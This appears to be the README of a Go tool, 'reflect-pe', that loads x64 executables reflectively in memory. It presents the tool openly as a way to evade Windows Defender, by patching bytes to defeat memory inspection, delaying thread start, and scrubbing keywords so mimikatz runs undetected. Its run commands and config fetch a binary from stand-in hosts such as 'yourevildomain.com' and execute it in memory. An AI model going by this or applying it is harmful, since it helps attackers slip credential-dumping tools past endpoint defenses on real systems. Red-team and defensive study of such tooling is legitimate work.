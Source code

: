 # Reflect-pe
![Build](https://github.com/ayoul3/reflect-pe/workflows/Go/badge.svg)  

Reflectively load and execute an x64 Portable Executable in-memory. It does not bluntly allocate RWX memory all over the place. Each section gets its required set of permissions.   It also allows patching bytes on the fly to evade memory inspection (Windows Defender).  
Finally, it produces a self-contained executable so no ugly command lines to be inspected by Defender.  

**Supports x64 both unmanaged PE and managed PE (assemblies)**

## Usage  
1. [Prepare a Go environment](https://golang.org/dl/) to build the reflect-pe on Windows. You cannot cross compile it on a Linux/Unix machine because it uses Windows specific code.  

2. Prepare your `config.yml` file (see below)

3. Build the executable
```bat
git clone https://github.com/ayoul3/reflect-pe
cd reflect-pe
go build -v .
```
Run it and enjoy
```bat
reflect-pe.exe
reflect-pe.exe config_mimi.yml
reflect-pe.exe http://www.evilsite.com/config.yml
```

## Config
```yaml
# BinaryPath can either be an HTTP url, a relative path or an absolute path.
BinaryPath: 'http://www.yourevildomain.com/file.exe'

# ReflectArgs is a string containing the arguments passed to your binary when executed in memory.
# For Unmanaged PE: First argument is the program's name. This parameter can be empty
# For managed PE: First argument is the real first argument

ReflectArgs: 'arg0 arg1 arg2'

# 3 options to load an unmanaged executable in memory:
# Wait: will call CreateThread, then wait 15 to 30 seconds before resuming the threat. This proved very effective against Windows Defender.
# <empty>: We do not wait between thread creation and execution
# Function: We overwrite the address of a Go method with the executable's entry point

ReflectMethod:  # wait, function or empty

# CLR runtime version. If the version specified is not found, the latest one will be taken. If it's empty it defaults to v2.  

CLRRuntime: v4

# 0: no logs, 1: Info logs, 2: Debug
LogLevel: 2

# Keywords to be replaced by a random shuffle. Both utf8 and unicode versions are replaced.
Keywords:
  - mimikatz
  - delpy
  - benjamin
  - delpy
```
Ps: config_mimi.yml contains the basic keywords to target to run a mimikatz without triggering Windows Defender

## Limitations
Reflect-pe only works for x64 dynamic executables on 64-bit intel machines.  

It's not stable when it comes to static binary for the good reason that hardcoded absolute addresses are difficult to find and translate to the new relocated address.
So it cannot load a go-binary for instance (also because the go runtime cannot be loaded twice inside the same process)

I did not try loading a DLL. There may be some small adjustments that are needed to make it work.


## Credit
* https://github.com/stephenfewer/ReflectiveDLLInjection  
* https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
* Huge thanks to https://github.com/ropnop/go-clr for 90% of the CLR loading in Go
